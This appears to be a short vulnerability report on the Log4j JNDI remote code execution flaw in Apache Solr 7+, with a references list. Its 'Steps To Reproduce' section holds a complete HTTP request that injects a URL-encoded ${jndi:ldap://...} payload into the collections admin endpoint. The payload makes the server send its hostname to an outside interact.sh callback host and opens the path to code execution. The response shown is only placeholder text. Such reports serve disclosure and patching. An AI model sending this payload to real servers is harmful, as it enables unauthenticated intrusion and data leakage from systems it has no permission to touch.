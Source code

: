 

# Apache Solr Log4j RCE

Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. This vulnerability affects Solr 7+. 

## Steps To Reproduce

Request  (calling variable Hostname)
```
GET /solr/admin/collections?action=$%7Bjndi:ldap://$%7BhostName%7D.c701o5qh71pnr5rspgm0c8ybagyyyyyyn.interact.sh/a%7D HTTP/1.1
Host: $HOST
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip



```

Response

```
FILLER 
```



## Impact

- An unauthenticated, 3rd-party attacker or adversary can execute remote code
 
### Supporting Material/References
https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
https://twitter.com/sirifu4k1/status/1470946544908185603

